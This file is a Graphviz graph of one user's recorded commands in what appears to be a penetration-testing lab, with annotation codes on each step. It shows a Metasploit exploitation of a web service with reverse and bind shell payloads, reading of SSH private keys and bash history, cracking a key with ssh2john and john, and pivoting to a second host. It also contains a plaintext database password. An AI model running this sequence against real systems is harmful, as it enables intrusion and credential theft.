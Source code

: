 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 M0 "]
	2 [label="msfdb init U"]
	3 [label="msf U"]
	4 [label="apt-get install armitage U"]
	5 [label="apt-get update U"]
	6 [label="exit U"]
	7 [label="armitage U"]
	8 [label="back U"]
	9 [label="db_status U"]
	10 [label="setg A6 "]
	11 [label="back U"]
	12 [label="back U"]
	13 [label="db_connect msf:h+L0Xf0385dbIjRgtPnNOaZSMxa7YHoFzS6ojuOkYFc=@localhost:5432/msf U"]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	15 [label="back U"]
	16 [label="back U"]
	17 [label="setg LHOST 10.1.135.83 M6 "]
	18 [label="jobs U"]
	19 [label="back U"]
	20 [label="setg LPORT 28605 A6 "]
	21 [label="back U"]
	22 [label="back U"]
	23 [label="hosts -a 172.18.1.5 U"]
	24 [label="back U"]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 V6 "]
	27 [label="set THREADS 24 V6 "]
	28 [label="set PORTS 50000 V6 "]
	29 [label="run -j M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	31 [label="show exploits V8 "]
	32 [label="back U"]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 V6 "]
	35 [label="set THREADS 24 V6 "]
	36 [label="set PORTS 50000 V6 "]
	37 [label="run -j V8 "]
	38 [label="msfconsole M2 "]
	39 [label="set RHOSTS 172.18.1.5 V6 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit V8 "]
	44 [label="set exploit 2019-15107 V8 "]
	45 [label="help U"]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	47 [label="use exploit/multi/handler V8 "]
	48 [label="set LHOST 0.0.0.0 V6 "]
	49 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	50 [label="set LPORT 14718 A6 "]
	51 [label="set ExitOnSession false A6 A10 "]
	52 [label="exploit -j V8 "]
	53 [label="use exploit/47230 V8 "]
	54 [label="set RHOSTS 172.18.1.5 V6 "]
	55 [label="set TARGETURI / A6 "]
	56 [label="set TARGET 0 A6 "]
	57 [label="set LHOST 10.1.135.83 V6 "]
	58 [label="set LPORT 11265 A6 "]
	59 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	60 [label="set RPORT 80 V6 "]
	61 [label="set SSL 0 A6 "]
	62 [label="exploit -j V8 "]
	63 [label="use exploit/47230 V8 "]
	64 [label="set RHOSTS 172.18.1.5 V6 "]
	65 [label="set TARGETURI / A6 "]
	66 [label="set TARGET 0 A6 "]
	67 [label="set LHOST 10.1.135.83 V6 "]
	68 [label="set LPORT 2139 A6 "]
	69 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	70 [label="set RPORT 10000 V6 "]
	71 [label="set SSL 0 A6 "]
	72 [label="exploit -j V8 "]
	73 [label="sessions U"]
	74 [label="sessions -u 1 U"]
	75 [label="use exploit/47230 V8 "]
	76 [label="set RHOSTS  V6 "]
	77 [label="set TARGETURI / A6 "]
	78 [label="set TARGET 0 A6 "]
	79 [label="set LHOST 10.1.135.83 V6 "]
	80 [label="set LPORT 26069 A6 "]
	81 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	82 [label="set RPORT 10000 V6 "]
	83 [label="set SSL 0 A6 "]
	84 [label="exploit -j V8 "]
	85 [label="use exploit/multi/handler V8 "]
	86 [label="set LHOST 10.1.135.83 V6 "]
	87 [label="set LPORT 8871 A6 "]
	88 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	89 [label="set ExitOnSession false A6 A10 "]
	90 [label="exploit -j V8 "]
	91 [label="hosts -a 172.18.1.5 U"]
	92 [label="back U"]
	93 [label="use exploit/47230 V8 "]
	94 [label="set RHOSTS 172.18.1.5 V6 "]
	95 [label="set TARGETURI / A6 "]
	96 [label="set TARGET 0 A6 "]
	97 [label="set LHOST 10.1.135.83 V6 "]
	98 [label="set LPORT 17595 A6 "]
	99 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	100 [label="set RPORT 10000 V6 "]
	101 [label="set SSL 0 A6 "]
	102 [label="exploit -j V8 "]
	103 [label="sessions U"]
	104 [label="sessions -u 3 U"]
	105 [label="sessions --help U"]
	106 [label="sessions -h U"]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	109 [label="sessions 3 -c dir U"]
	110 [label="sessions 3 -c ls A10 "]
	111 [label="sessions 3 -c dir U"]
	112 [label="sessions 3 -c cd / U"]
	113 [label="sessions 3 -c pwd U"]
	114 [label="sessions 3 -c dir U"]
	115 [label="sessions 3 -c WARNING-READ-ME.txt U"]
	116 [label="sessions 3 -c nano WARNING-READ-ME.txt U"]
	117 [label="sessions 3 -c leafpad WARNING-READ-ME.txt U"]
	118 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	119 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	120 [label="sessions -u  U"]
	121 [label="sessions -u 1 U"]
	122 [label="sessions U"]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt M9 "]
	124 [label="sessions 3 -c ls A10 "]
	125 [label="sessions -k 3 U"]
	126 [label="sessions -c cd ? U"]
	127 [label="sessions -c cd / U"]
	128 [label="sessions -c cd / U"]
	129 [label="sessions -c dir U"]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history M10 "]
	133 [label="sessions -c find -name *.bash_history V10 "]
	134 [label="sessions -c dir /home/eve U"]
	135 [label="sessions -c ls A10 "]
	136 [label="sessions -c dir /home U"]
	137 [label="sessions -c cd /home/eve U"]
	138 [label="sessions -c ls A10 "]
	139 [label="sessions 3 -c less .bash_history M11 "]
	140 [label="hosts -a 10.1.17.4 U"]
	141 [label="back U"]
	142 [label="sessions 3 -c tree U"]
	143 [label="sessions 3 -c pwd U"]
	144 [label="sessions 3 -c dir U"]
	145 [label="sessions 3 -c cd / U"]
	146 [label="sessions 3 -c find -name ssh V10 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	148 [label="sessions 3 -c dir U"]
	149 [label="sessions 3 -c less ssh_host_rsa_key A9 A11 A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh M16 "]
	153 [label="dir U"]
	154 [label="dir desktop U"]
	155 [label="dir Desktop U"]
	156 [label="ssh -i /root/desktop/ssh V16 "]
	157 [label="less /desktop/ssh A9 A11 A12 A16 A17 "]
	158 [label="pwd U"]
	159 [label="less /root/desktop/ssh A9 A11 A12 A16 A17 "]
	160 [label="less /root/Desktop/ssh A9 A11 A12 A16 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A9 A11 A12 A16 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 V16 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	166 [label="ssh A16 "]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	168 [label="sessions 3 -c less ssh_config A9 A11 A12 A16 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp M15 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	172 [label="sessions 3 -c cd /usr/bin/ssh A16 "]
	173 [label="sessions 3 -c ls A10 "]
	174 [label="sessions 3 -c less sshd_config A9 A11 A12 A16 A17 "]
	175 [label="sessions 3 -c ls A10 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	177 [label="sessions -c cd / U"]
	178 [label="sessions -c find -fname ecdsa A10 "]
	179 [label="sessions -c find -name ecdsa V10 "]
	180 [label="sessions -c find -name ecdsa_key V10 "]
	181 [label="sessions -c find -fname *ecdsa_key A10 "]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key A10 A16 "]
	183 [label="sessions -c pwd U"]
	184 [label="sessions -c ls A10 "]
	185 [label="python ssh2john.py M13 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp V13 "]
	187 [label="python ssh2john.py --help V13 "]
	188 [label="python ssh2john.py V13 "]
	189 [label="python ssh2john.py V13 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp V13 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john M14 "]
	192 [label="john --wordlist /root/Desktop/john V14 "]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john V14 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 V16 "]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	197 [label="chmod 600 /root/Desktop/ssh_comp V15 "]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
